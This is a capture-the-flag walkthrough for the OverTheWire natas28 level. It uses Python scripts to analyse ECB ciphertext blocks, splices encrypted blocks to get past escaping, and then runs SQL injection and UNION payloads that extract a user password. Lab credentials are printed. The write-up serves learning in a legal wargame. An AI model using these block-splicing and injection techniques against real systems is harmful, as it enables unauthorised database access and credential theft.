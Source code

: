 ```yaml
---
title: natas 28 walkthrough
description: over the wire natas 28
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-28 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 28 walkthrough
    order: 30
---
```

# Description
> Username: natas28
> 
> URL:      http://natas28.natas.labs.overthewire.org


---
# Progress
## Observation
### Payload
After pressing search, the url turns into `search.php` with query. Therefore, directly check endpoint `search.php` page. Nothing but only `mep` three characters.

Let us play with payload. Query with nothing offers 
> **Notice**: Uninitialized string offset: -1 in **/var/www/natas/natas28/search.php** on line **59**  
> Zero padding found instead of PKCS#7 padding

After collecting two search content, one can get two different queries. Extract the identical part. `G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjP`. Use it in query.
> **Notice**: Trying to access array offset on value of type bool in **/var/www/natas/natas28/search.php** on line **59**  
> Zero padding found instead of PKCS#7 padding

With some search, I found an attack exploiting the padding, i.e., [[padding oracle attack]]. In the example, this technique is applied on CBC. Therefore, we need to check the block.
```python
def extract_query(url: str):
    parsed_url = urlparse(url)
    captured_value = parse_qs(parsed_url.query)['query'][0]
    return captured_value

def retrieve_queries():
    for i in range(50):
        main_url = "http://natas28.natas.labs.overthewire.org/index.php"
        payload = {
            "query" : "vegetable"+ str(i),
        }
        response = requests.post(main_url, auth=authentication, data=payload)
        print(f"{i} : {extract_query(response.url)}")

retrieve_queries()
```
Fortunately, I think every block would generate a ciphertext with a length of 22 characters. Moreover, it might be ECB not CBC, since the result changes only in some parts but not all the following characters.
```
38 : G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPKgHAUWGVPjoODSBsJiKJzEkLLjc1SH4XdytO9O2yi2pcqM9OYQkTq645oGdhkgSlo=
39 : G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPKgHAUWGVPjoODSBsJiKJzEDKWsasNjmRfPW2n4Q5AJi8qM9OYQkTq645oGdhkgSlo=
40 : G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLls2NGuivaJj7H9Gh39NKKjSIK5YYioto3e8rvAi/UwsqM9OYQkTq645oGdhkgSlo=
41 : G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLls2NGuivaJj7H9Gh39NKKyzdjv0KNaoXsfXBKUOlzXcqM9OYQkTq645oGdhkgSlo=
42 : G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLls2NGuivaJj7H9Gh39NKKbgKivJnOqZsklwsoFwNeJMqM9OYQkTq645oGdhkgSlo=
```
With manipulating the length of the query, I found the block size might be 16 characters long.
> Block size: 16
> Ciphertext block size (in base64): 22
```python
def retrieve_queries():
    for i in range(50):
        response = main_req("v" * i)
        print(f"{i} : {extract_query(response.url)}")
```
The first block and the second block are all fixed. The third block is fixed after `i=10`. When `i=13`, the length of ciphertext changes. 

From all the ciphertext, I think the plaintext would be `prefix` + `payload` + `suffix`.
Length
- prefix : 16\*2 + (16-10) = 38
- suffix : (16-(12-10))+16 = 30

Since it seems to be ECB, [[padding oracle attack]] might be useless here.
## Crack Suffix (Meaningless)
```python
import requests
from requests.auth import HTTPBasicAuth
from urllib.parse import urlparse
from urllib.parse import parse_qs
import string

username = "natas28"
password = "skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4"
authentication = HTTPBasicAuth(username, password)

def main_req(query:str):
    main_url = "http://natas28.natas.labs.overthewire.org/index.php"
    payload = {
        "query" : query,
    }
    response = requests.post(main_url, auth=authentication, data=payload)
    return response

def extract_query(url: str):
    parsed_url = urlparse(url)
    captured_value = parse_qs(parsed_url.query)['query'][0]
    return captured_value

def are_block3_same(query1, query2):
    return query1[42:64] == query2[42:64]

def main():
    success_password = ""
    N = 10
    while len(success_password) < N:
        length_success = len(success_password)
        pure_payload = "1"*(N-length_success-1)
        target_query = extract_query(main_req(pure_payload).url)
        for candidate in string.printable:
            manipulated_payload = "1"*(N-length_success-1) + success_password + candidate
            manipulated_query = extract_query(main_req(manipulated_payload).url)
            if are_block3_same(manipulated_query, target_query):
                success_password += candidate
                print(f"{success_password}")
                break
        else:
            print(f"password : {success_password}")
            break

if __name__ == "__main__":
    main()
```
password : %
failed to find the suffix.
## Special Characters
However, try to add special (escape) character into payloads.
```python
def compare_queries():
    response = main_req("1"*9 + "\\")
    print(f"padding 1 : {extract_query(response.url)}")
    response = main_req("1"*9 + "'")
    print(f"padding 2 : {extract_query(response.url)}")
    response = main_req("1"*9 + "\"")
    print(f"padding 3 : {extract_query(response.url)}")
```
The differences between them are all in the fourth block. That means the plaintext in the third block are identical. It might be the characters should be escaped. 

Therefore, I guess the process is
getting input from user → escape characters → ECB → request with encrypted payload → decrypt the payload → sql

## Plan
If the process is as I guessed, one can perform sql attack with malicious enrypted payload, that is, not escaped characters.
```python
if __name__ == "__main__":
    response = main_req("2"*9 + "' OR 1=1 -- ")
    last_part = extract_query(response.url)[64:]
    response = main_req("2"*10)
    first_part = extract_query(response.url)[:64]
    mal_query = first_part + last_part
    response = requests.get("http://natas28.natas.labs.overthewire.org/search.php/?query="+quote(mal_query),
                  auth=authentication)
    print(get_content(response))
```
Succeed!
We need to get the info about users table. Therefore, we need to use [[union attack]].
```python
"' OR 1=1 ORDER BY 1-- " # determine the column of the original sql
"' UNION SELECT username FROM users-- " # get all the users, found only one
"' UNION SELECT password FROM users-- " # retrieve the password of the only user
```
Finally, we get pc0w0Vo0KpTHcEsgMhXu2EwUzyYemPno

---
# Hint

---
# Solving
## Category
- 
## Techniques
- [[union attack]]

## Tools
- 